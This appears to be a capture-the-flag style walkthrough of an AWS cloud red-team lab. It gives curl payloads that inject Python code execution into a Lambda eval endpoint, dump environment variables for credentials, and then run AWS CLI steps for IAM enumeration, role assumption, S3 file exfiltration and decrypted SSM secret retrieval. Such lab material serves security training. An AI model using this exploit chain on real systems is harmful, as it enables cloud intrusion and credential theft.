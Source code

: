 # Initial Access

```bash
# Set the lambda URL
export LAMBDA_URL=''

# Set the credentials.
curl -X POST $LAMBDA_URL -H "Content-Type: application/json" -H "X-EVAL-TOKEN: Sup3r53cr37-70k3n" -d '{"username":"admin","password":"39d25d9e1d5d793c062f3f6e62da13377ec5a1a1fc1e60f650b1f3c566bcdb42","expr":"2+2"}' 
```

![](../artifacts/images/aws/1.png)

Command Execution payload: `__import__(\"os\").popen(\"id\").read()`

```bash
curl -X POST $LAMBDA_URL -H "Content-Type: application/json" -H "X-EVAL-TOKEN: Sup3r53cr37-70k3n" -d '{"username":"admin","password":"39d25d9e1d5d793c062f3f6e62da13377ec5a1a1fc1e60f650b1f3c566bcdb42","expr":"__import__(\"os\").popen(\"id\").read()"}' 

curl -X POST $LAMBDA_URL -H "Content-Type: application/json" -H "X-EVAL-TOKEN: Sup3r53cr37-70k3n" -d '{"username":"admin","password":"39d25d9e1d5d793c062f3f6e62da13377ec5a1a1fc1e60f650b1f3c566bcdb42","expr":"__import__(\"os\").popen(\"whoami\").read()"}' 
```

![](../artifacts/images/aws/2.png)

```bash
curl -s -X POST $LAMBDA_URL -H "Content-Type: application/json" -H "X-EVAL-TOKEN: Sup3r53cr37-70k3n" -d '{"username":"admin","password":"39d25d9e1d5d793c062f3f6e62da13377ec5a1a1fc1e60f650b1f3c566bcdb42","expr":"__import__(\"os\").popen(\"env\").read()"}' | jq '.result' | sed 's/\\n/\n/g'
```

![](../artifacts/images/aws/3.png)

```bash
export AWS_ACCESS_KEY_ID=
export AWS_SECRET_ACCESS_KEY=
export AWS_SESSION_TOKEN=
```

![](../artifacts/images/aws/4.png)

```bash
aws sts get-caller-identity
```

![](../artifacts/images/aws/5.png)

# Enumeration

```bash
# Fetches a list of all IAM roles in your AWS account
aws iam list-roles

aws iam list-roles --query 'Roles[].{Name:RoleName,ARN:Arn}' --output table
```

![](../artifacts/images/aws/6.png)

```bash
# Fetches complete details about the role named cloud-red-lab-s3-reader
aws iam get-role --role-name cloud-red-lab-s3-reader
```

![](../artifacts/images/aws/7.png)

```bash
# Lists managed policies attached to the given role.
# “Managed” means they are standalone IAM policies that can be attached to multiple roles/users/groups.
aws iam list-attached-role-policies --role-name cloud-red-lab-s3-reader --output json

# List inline policies for a role.
aws iam list-role-policies --role-name cloud-red-lab-s3-reader --output json
```

![](../artifacts/images/aws/8.png)

![](../artifacts/images/aws/9.png)

> Task: Read the policy for cloud-red-lab-lambda-role

```bash
# Fetches metadata about the managed policy (not the policy content yet).
aws iam get-policy --policy-arn arn:aws:iam::097564616454:policy/cloud-red-lab-s3-reader-policy

# Retrieves the actual policy document (JSON) for the specified version (v1 in this case).
aws iam get-policy-version --policy-arn arn:aws:iam::097564616454:policy/cloud-red-lab-s3-reader-policy --version-id v1
```

![](../artifacts/images/aws/10.png)

![](../artifacts/images/aws/11.png)

# Lateral Movement and Privilege Escalation

```bash
# Assume a role using its ARN
aws sts assume-role --role-arn "$ROLE_ARN" --role-session-name 'student-lab' --duration-seconds 1800
```

![](../artifacts/images/aws/12.png)

```bash
# Set the Short Term Credentials
export AWS_ACCESS_KEY_ID=
export AWS_SECRET_ACCESS_KEY=
export AWS_SESSION_TOKEN=

# Verify the identity of the caller
aws sts get-caller-identity
```

![](../artifacts/images/aws/13.png)

# Data Exfiltration

```bash
# List files on the s3 bucket
aws s3 ls s3://cloud-red-lab-internal-5975a1/

# Copy files from the s3 bucket to the local machine.
aws s3 cp s3://cloud-red-lab-internal-5975a1/flag2.txt .
aws s3 cp s3://cloud-red-lab-internal-5975a1/secret_reader_creds.txt .
```

![](../artifacts/images/aws/14.png)

# Persistence

```bash
# Set the Short Term Credentials
export AWS_ACCESS_KEY_ID=
export AWS_SECRET_ACCESS_KEY=
export AWS_SESSION_TOKEN=

# Verify the identity of the caller
aws sts get-caller-identity
```

![](../artifacts/images/aws/15.png)

# Extracting Crown Jewel

```bash
# This command lists metadata about SSM parameters in your AWS account
aws ssm describe-parameters
```

![](../artifacts/images/aws/16.png)

```bash
# retrieves the value of a Systems Manager parameter (optionally decrypted if it’s a SecureString).
aws ssm get-parameter --name "/cloud-red-lab/flag3" --with-decryption
aws ssm get-parameter --name "/cloud-red-lab/db/username" --with-decryption
aws ssm get-parameter --name "/cloud-red-lab/db/password" --with-decryption
```

![](../artifacts/images/aws/17.png)


```bash
#aws rds describe-db-instances lists detailed information about all RDS database instances in your AWS account (like endpoint, engine, status, and storage) in JSON format.
aws rds describe-db-instances --output json
```

![](../artifacts/images/aws/18.png)


Final Task: Connect to the DB and get the flag.